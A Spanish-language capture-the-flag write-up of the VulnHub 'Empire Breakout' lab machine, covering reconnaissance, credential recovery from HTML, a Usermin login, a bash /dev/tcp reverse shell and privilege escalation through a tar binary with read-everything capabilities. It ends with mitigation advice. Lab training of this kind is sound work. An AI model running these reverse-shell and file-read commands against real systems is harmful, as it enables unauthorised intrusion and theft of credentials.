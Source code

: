 # **CTF EMPIRE BREAKOUT**
OBJETIVO: 192.168.131.129 (Empire Breakout) <br>
 <br>
<div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/HD-wallpaper-star-wars-empire-battlefront-games-gaming-ps4-star-wars-starwars-xbox.jpg" width="550" alt="Star Wars Battlefront">
</div>
 <br>
## SECUENCIA DE ATAQUE <br>
 <br>
### FASE 1: PREPARACIÓN  <br>
mkdir ~/Desktop/vulnhub && cd ~/Desktop/vulnhub <br>
ping -c 4 192.168.131.129  # Verificación de conectividad <br>
Resultado: Objetivo accesible. <br>
 <br>
### FASE 2: RECONOCIMIENTO <br>
nmap -sC -sV -p- --open -oN escaneo 192.168.131.129 <br>
Puertos identificados: <br>
•	80/tcp - Apache httpd (página web) <br>
•	139/tcp - Samba smbd 4.6.2 <br>
•	445/tcp - Samba smbd 4.6.2 <br>
•	10000/tcp - MiniServ 1.981 (Webmin) <br>
•	20000/tcp - MiniServ 1.830 (Usermin) <br>
 <br>
### FASE 3: EXPLOTACIÓN INICIAL <br>
Análisis web: Navegador → http://192.168.131.129 <br>
•	Página Apache por defecto encontrada <br>
•	Inspección código fuente HTML <br>
 <br>
Extracción de credenciales: <br>
•	Comentario HTML: <!-- Don't worry this is safe to share with you, my access is encoded --> <br>
•	Código Brainfuck localizado al final del HTML <br>
•	Decodificación: decode.fr → Contraseña obtenida: .2uqPEfj3D<P'a-3 <br>
 <br>
echo ".2uqPEfj3D<P'a-3" > clave  # Almacenamiento seguro <br>
 <br>
Enumeración de usuarios: <br>
enum4linux -a 192.168.131.129 <br>
Usuario identificado: cyber <br>
 <br>
### FASE 4: ACCESO INICIAL <br>
 <br>
Autenticación: <br>
•	Panel Usermin: https://192.168.131.129:20000 <br>
•	Credenciales: cyber / .2uqPEfj3D<P'a-3 <br>
•	ACCESO CONCEDIDO <br>
 <br>
Primera flag: <br>
ls          # Exploración directorio <br>
cat user.txt # Flag user obtenida <br>

### FASE 5: SHELL REVERSA <br>
Preparación listener: <br>
ifconfig                    # IP local: 192.168.0.11 <br>
nc -lvp 443                # Listener puerto 443 <br>

Ejecución desde Command Shell del panel: <br>
bash -i >& /dev/tcp/192.168.0.11/443 0>&1 <br>
Shell reversa establecida como usuario cyber <br>
 <br>
### FASE 6: ESCALADA DE PRIVILEGIOS <br>
 <br>
Enumeración de privilegios: <br>
sudo -l                     # Sin resultados <br>
getcap -r / 2>/dev/null    # CRÍTICO: /home/cyber/tar cap_dac_read_search=ep <br>
 <br>
Identificación objetivo: <br>
cd /var/backups <br>
ls -la                     # Archivo: .old_pass.bak (propiedad root) <br>
 <br>
Explotación capabilities: <br>
cd /home/cyber <br>
./tar -cf clave.tar /var/backups/.old_pass.bak  # Compresión con capabilities <br>
tar -xvf clave.tar                              # Extracción <br>
cd var/backups <br>
cat .old_pass.bak                               # Contraseña root: Ts&4&YurgtRX(=~h <br>
 <br>
Escalada final:
su root                    # Password: Ts&4&YurgtRX(=~h <br>
script /dev/null -c bash   # Estabilización shell <br>
cd /root <br>
cat root.txt              # Flag root obtenida <br>
 <br>
## VULNERABILIDADES CRÍTICAS EXPLOTADAS <br>
 <br>
### CREDENCIALES EN CÓDIGO FUENTE <br>
•	Vector: Contraseña Brainfuck en HTML <br>
•	Impacto: Acceso directo a panel administrativo <br>
•	Criticidad: MÁXIMA <br>
 <br>
### CAPABILITIES MAL CONFIGURADAS <br>
•	Vector: CAP_DAC_READ_SEARCH en binario tar <br>
•	Impacto: Lectura arbitraria de archivos sistema <br>
•	Criticidad: ALTA <br>
 <br>
### ARCHIVO BACKUP CONTRASEÑA ROOT <br>
•	Vector: /var/backups/.old_pass.bak <br>
•	Impacto: Escalada directa privilegios root <br>
•	Criticidad: MÁXIMA <br>
 <br>
### PANEL ADMINISTRATIVO EXPUESTO <br>
•	Vector: Usermin puerto 20000 sin restricciones <br>
•	Impacto: Superficie ataque administrativa <br>
•	Criticidad: MEDIA <br>
 <br>
## HERRAMIENTAS EMPLEADAS <br>
Reconocimiento: nmap, navegador web <br>
Enumeración: enum4linux, decode.fr <br>
Acceso: Panel web Usermin <br>
Persistencia: Netcat (shell reversa) <br>
Escalada: getcap, tar (capabilities) <br>
 <br>
## MEDIDAS DE MITIGACIÓN <br>
 <br>
### CRÍTICAS (0-24 horas) <br>
•	Eliminar credenciales de código fuente HTML <br>
•	Remover capability CAP_DAC_READ_SEARCH del binario tar <br>
•	Eliminar archivo /var/backups/.old_pass.bak <br>
•	Cambiar contraseña root inmediatamente <br>
 <br>
### URGENTES (24-72 horas) <br>
•	Restringir acceso paneles Webmin/Usermin por IP <br>
•	Auditar todos binarios con capabilities especiales <br>
•	Revisar ubicaciones backup archivos sensibles <br>
 <br>
### IMPORTANTES (1-2 semanas) <br>
•	Implementar gestión segura secretos <br>
•	Configurar monitoreo accesos administrativos <br>
•	Establecer proceso revisión código fuente <br>
 <br>
## EVIDENCIAS <br>
•	Flag Usuario: Capturada desde /home/cyber/user.txt <br>
•	Flag Root: Capturada desde /root/root.txt <br>
•	Credenciales: Usuario 'cyber' y contraseña root documentadas <br>
•	Archivos: Escaneo nmap y evidencias almacenadas en ~/Desktop/vulnhub/ <br>
 <br>
## EVALUACIÓN <br>
•	TIEMPO: 45 minutos <br>
•	DIFICULTAD: Baja <br>
•	DETECCIÓN: No <br>
•	El objetivo presenta varios vectores de ataque de nivel crítico que facilitan comprometerla rápidamente, destacando la combinación de credenciales expuestas y configuraciones inseguras. <br>
 <br>
## MV <br>
https://www.vulnhub.com/entry/empire-breakout,751/ <br>
